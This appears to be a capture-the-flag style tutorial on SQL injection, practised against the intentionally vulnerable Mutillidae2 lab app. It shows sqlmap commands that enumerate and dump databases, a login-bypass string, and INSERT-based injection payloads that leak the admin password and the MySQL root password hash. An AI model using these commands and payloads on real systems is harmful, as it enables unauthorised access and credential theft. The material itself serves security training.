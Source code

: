 <h1>SQL Injection</h1>
<p> SQL injection is when the User Input Data injects something that uses the context interpretation of that entered data to the attacker's advantage. It can do anything from leaking useful data like password hashes to destroying the entire database or spawn an OS shell to the attacker, if unchecked. It still remains as one of the most potent form of injections that a site can be vulnerable to as it attacks a backend datastore.
</p>
<h2> Identification</h2>
<p> Identifying the SQL injection points are the first step, every point must be checked and marked that one encounters during reconnaisance or crawling, sitemap generation etc. Key areas could be.
	<ol>
		<li>Form submissions, registrations, change password etc</li>
		<li>GET URL's typically pagination requests</li>
		<li>Ajax requests behind the scenes that periodically submit user data</li>
		<li>Feedback or comment forms in shopping sites</li>
		<li>User-Agent might be getting logged somewhere in DB, try to inject that as well</li>
	</ol>
<h2>Execution</h2>
<p>
After identifying a suitable entry point, begin your attack. It goes without saying that ensure you have full permission to perform the attack, and the client has backup of the datastore or any crucial data, as the attack could have unforseen consequences. Here we are going to practice on CTF Mutillidae2 so this can be kept aside for now.
</p>
<p>You can attack manually and when some info is revealed ,you may proceed for tools or other complex types of attack. There is no checklist , hacking is all about creativity and above all patience.
So keep digging away until you're sure that the injection point is protected.
</p>

<ol>
	<li>Manually submit values via browser interface</li>
	<ul>
		<li>Will be prevented by Client side scripting(Stupid Level 2)</li>
		<li>Not hackery enough, doesn't give you the feel good</li>
	</ul>
	<li>
		Use a good'ol script that behaves like a browser. Attached the most simple script possible in pytnon
		using Mechanize. (sqlinjection.py) for the User-Info challenge.
	</li>
	<li>
		Use the grand daddy SQLMap tool. More on how to use sqlmap can be found by reading the man page.
		SQLMap ships by default with Kali Linux.
		<ul>
			<li>
				<p>Start by locating sqlmap if it is already installed<p>
				<pre>
locate sqlmap.py
				</pre>
				Traverse to the directory, which will be "/usr/share/sqlmap" , if it is installed
			</li>
			<li>
				First step is to find out, the action URL i.e where the data is being submitted. There are many ways to do this, but I prefer doing it via the proxy of WebExploit tool BurpSuite, by PortSwigger.
				The request URL and method type must be indentified. In this case, the GET request reflects in the URL and can be copied from there. <br> In Burp Suite this can be done using the inbuilt proxy and copying th details from there. <br> We now use the URL with SQLMap as follows.<br> The values of the username and password do not matter,those keys will be used by SQLMap for injection.
				The 
				<pre>
./sqlmap.py -u "http://192.168.16.1:9999/mutillidae2/index.php?page=user-info.php&username=alibaba&password=dotcom&user-info-php-submit-button=View+Account+Details" --dbs  
				</pre>
				</li>
				<li>
					The above command will display the databases that could be accessed, use "<b>-D &ltDatabaseName&gt</b>" , and <b>--tables</b>to see tables for the database.
					<pre>
./sqlmap.py -u "http://192.168.16.1:9999/mutillidae2/index.php?page=user-info.php&username=alibaba&password=dotcom&user-info-php-submit-button=View+Account+Details" --dbs -D nowasp --tables
					</pre>
					</li>
					<li>
						Once ,tables are displayed,a table name can be selected using "<b>-T &lttableName&gt</b>" and display columns using "<b>--columns</b>"
						<pre>
./sqlmap.py -u "http://192.168.16.1:9999/mutillidae2/index.php?page=user-info.php&username=alibaba&password=password&user-info-php-submit-button=View+Account+Details" --dbs -D nowasp -T accounts --columns
						</pre>
</li>
<li>
	The data from the selected columns can be done by specifying the value "<b>-C &ltcolumn1,column2&gt</b>", and and dump the data using the option "<b>--dump</b>".
</li>
</li>
</ol>
<h2> Different Attack Purpose</h2>
<h3> Extracting Data </h3>
<p>Aim is to extract data via SQL injection, typically attacking inputs where there is a probable of SQL SELECT statement in the background. Attacking Mutillidae2. The demo shown under Execution covers this and also the sqlinjection.py which cracks the injection. At Level 5, Mutillidae2 should be unbreakable, so any hacks found should be reported as bug to the developer.</p>

<h3>1.Bypasing Authentication</h3>

<p>Typical statements where, authentication can be bypassed as an example of SQL injection</p>
A mechanism to bypass authentication via injecting login. Attack via simple command, and try to guess admin username. You can attack via SQLMap, but for learning sake we are gonna manually pass the parameters. On level 2, this method can be used via proxy tool of your choice.


So bypassing the login in Mutillidae2 is pretty easy-peezy lemon squeazy. You just inject the good'ol string <b><i>admin' or 1=1#</i></b>.

<h3>2.Insert based Injection </h3>

Upon identifying an Insert based injection, it is important to know that he Insert statement is the best place to perform what is called a second order SQL Injection if the condition is right.
We can always use the Insert statement to bypass the entries in the database which should not be possible in otherwise normal case.  In Mutillidae2 , the Insert based injection causes the query to break, hence we cannot work with Second order SQL Injection.
Insert SQL statement has this structure. Our injection could be any one or more of the values.
<pre>INSERT INTO blahTABLE(col1,col2,col3) VALUES(val1,val1,val2)</pre>
<p>The values must match the number of columns and also the datatype. We may not always know the number of paramaters before hand, or what type is required by the database.</p><p>Fortunately this shortcoming can be easily bypassed. 
The trick is to start by hit and trial method for the number of parameters, and the type check can be bypassed by using an Integer as it is typecasted into a string by most databases.
Attempts could look like following to guess the number of parameters until the attack is successfull.
<pre>
xxx') -- 
xxx',1) -- 
xxx',1,1) -- 
</pre>
and so on , until you guess the right number of columns that exist. A similar kind of trick can be used with UNION statements to guess the number of columns and their datatypes.

The mutillidae2 solution is to forge a date into the blog, which should be non existent.
<ol>
	<li>
		<b>Add to your blog page</b> can be SQL injected to change the date of the blog, the Insert statement can be easily injected by using this query.  
		<pre>I have some aladeen news','2019-09-09 00:00:00')#</pre>
		<b>Note: I have been trying for a Second order injection, but have not been able to do it</b>
		<p>The user is taken from the cookie and PHPSESSID and unforgeable, so we are left only with the option of the date which only accepts a date and the string of the blog</p>.
		<p>I have so far managed to pull off an error based injection. I am still looking for a way to post the results of the injected SELECT query into the blog itself but haven't been successful
		Adding the below into the blog, we get an error message notifying us of the password of the user admin, and that it does not qualify for a date.
		</p>
		<pre>
			hacker',(SELECT password FROM accounts WHERE username LIKE '%admin' ))#
		</pre>
	</li>
	<li>
		<b>Register yourself page</b>
		You can register by using data from other columns as one of the fields. We cannot however read from <b>the same table</b> we are INSERTING into. Hence unfortunately we cannot read from the accounts table (containing username and password). We can however get crucial column Name by using these. We are targeting the metainfo stored in <b>information_schema </b>. In Oracle we would target all_tabs_columns. 
		Put the following in the username field of registration page. The field we are injected into is the signature field. Since we cannot read from accounts , we can definitely try to read from the vulnerable <b><i>mysql.user</i></b>. The first two queries are when you want to scan the tables for columns. 
		<pre>
			hacker','1',(SELECT column_name from information_schema.columns where table_name='accounts' and column_name LIKE '%user%' LIMIT 1))#
			hacker','1',(SELECT column_name from information_schema.columns where table_name='accounts' and column_name LIKE '%pass%' LIMIT 1))#
			hacker','1',(select password from mysql.user where user=’root’ LIMIT 0,1)#
		</pre>  
	</li>
</ol>
</p>
